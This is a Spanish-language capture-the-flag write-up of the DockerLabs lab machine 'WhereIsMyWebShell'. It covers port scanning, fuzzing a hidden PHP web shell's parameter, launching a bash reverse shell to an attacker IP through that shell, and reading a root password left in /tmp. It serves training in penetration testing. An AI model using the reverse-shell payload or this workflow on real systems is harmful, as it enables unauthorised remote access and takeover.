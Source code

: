 # 📘 Informe de Pentesting - WhereIsMyWebShell (Nivel Fácil)

## 🎯 Objetivo

El objetivo de esta máquina vulnerable es identificar y explotar una **web shell oculta**, acceder al sistema, y finalmente obtener privilegios de **root**.

---

## 📝 Descripción

Se trabajó con una máquina vulnerable descargada desde DockerLabs. El análisis incluye desde el reconocimiento de puertos hasta la escalada de privilegios. Este informe explica todo el proceso paso a paso con soporte visual para facilitar la comprensión.

![Despliegue](./Imagenes/Logo.png)

---

## ⚙️ Despliegue de la Máquina

1. **Descarga y descompresión**
   Descargamos el archivo `whereismywebshell.zip` desde DockerLabs y lo descomprimimos:

   ```bash
   unzip whereismywebshell.zip
   ```

2. **Ejecución de la máquina**
   Luego, se desplegó la máquina con el script de despliegue:

   ```bash
   sudo bash auto_deploy.sh whereismywebshell.tar
   ```

   ![Despliegue](./Imagenes/Despliegue.jpeg)

---

## 📡 Verificación de Conectividad

Para verificar que la máquina esté activa, se le hace ping a la IP asignada (por ejemplo, `172.17.0.3`):

```bash
ping -c 3 172.17.0.3
```

![Ping](./Imagenes/Ping.jpeg)

---

## 🔎 Reconocimiento de Puertos

1. **Escaneo completo de puertos con Nmap**

   ```bash
   sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
   ```

   Se descubrió que el **puerto 80 (HTTP)** está abierto.

   ![Puertos abiertos](./Imagenes/Puerto.jpeg)

2. **Escaneo específico del puerto descubierto**

   ```bash
   nmap -sC -sV -p 80 172.17.0.3 -oN target.txt
   ```

   Este comando analiza más a fondo para identificar versiones y servicios.

   ![Servicios](./Imagenes/Servicios.jpeg)

---

## 🌐 Análisis del Sitio Web

Accedemos al navegador en la dirección: `http://172.17.0.3`
Se muestra una página web simple.

![Página principal](./Imagenes/Pagina.jpeg)

---

## 🛠️ Descubrimiento de Recursos Ocultos (Fuzzing)

Se utilizó fuzzing (técnica para encontrar recursos ocultos en el servidor) y se encontró lo siguiente:

1. Directorios ocultos
2. En la sección de contacto del archivo `index.html`, se encuentra este mensaje:

```
Guardo un secretito en /tmp ;)
```

![Fuzzing](./Imagenes/Fuzzing.jpeg)

Además, se encontró una página sospechosa:
`http://172.17.0.3/warning.html`

![Página web sospechosa](./Imagenes/web.jpeg)

---

## 🐚 Explotación: Descubrimiento de Web Shell

Se usó **wfuzz** para probar qué parámetros de `shell.php` ejecutan comandos:

```bash
wfuzz -c -t 50 --hh 0 --hc 404,500 -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt "http://172.17.0.3/shell.php?FUZZ=id"
```

Después de probar más de 6000 parámetros, se identificó uno que ejecuta comandos como `id`.

![Descubrimiento de Web Shell](./Imagenes/WebShellWfuuz.jpeg)

---

## 🖥️ Acceso vía Web Shell

Probando el parámetro descubierto en el navegador, se confirmó que se ejecutan comandos.

![Web Shell activa](./Imagenes/WebShell.jpeg)

---

## 📥 Conexión Reversa (Reverse Shell)

Para obtener una terminal interactiva en nuestra máquina, configuramos un **listener** con `netcat`:

```bash
sudo nc -lvnp 443
```

![Listener activado](./Imagenes/Escucha.jpeg)

Desde la Web Shell, se ejecuta el siguiente comando para conectarse a nuestra máquina (IP atacante: `192.168.1.10`):

```bash
http://172.17.0.3/shell.php?parameter=bash+-c+%27bash+-i+%3E%26+/dev/tcp/192.168.1.10/443+0%3E%261%27
```

Esto lanza una **reverse shell**, dándonos acceso como usuario en la máquina remota.

![Reverse Shell exitosa](./Imagenes/Scrpts.jpeg)
![Sesión interactiva obtenida](./Imagenes/Shell.jpeg)

---

## 🔐 Escalada de Privilegios

Recordando el mensaje visto anteriormente (`Guardo un secretito en /tmp ;)`), navegamos al directorio `/tmp/`:

```bash
cd /tmp/
ls -la
```

Encontramos un archivo `.txt` sospechoso. Al visualizarlo con `cat`, revela la **contraseña de root**:

```bash
cat secret.txt
```

Usamos `su` para convertirnos en root:

```bash
su root
# Contraseña: contraseñaderoot123
```

¡Acceso como root conseguido!

![Acceso root](./Imagenes/Root.jpeg)

---

## 🏁 Conclusión

En esta máquina:

* Se identificó un servicio HTTP vulnerable.
* Se descubrió una **web shell** oculta mediante fuzzing.
* Se ejecutó una **reverse shell** para acceder al sistema.
* Se obtuvo la contraseña de root desde un archivo oculto en `/tmp`.
* Se escalaron privilegios y se obtuvo control total del sistema.

Este reto refuerza habilidades esenciales de pentesting web, como fuzzing, análisis de parámetros, ejecución remota de comandos y escalada de privilegios.
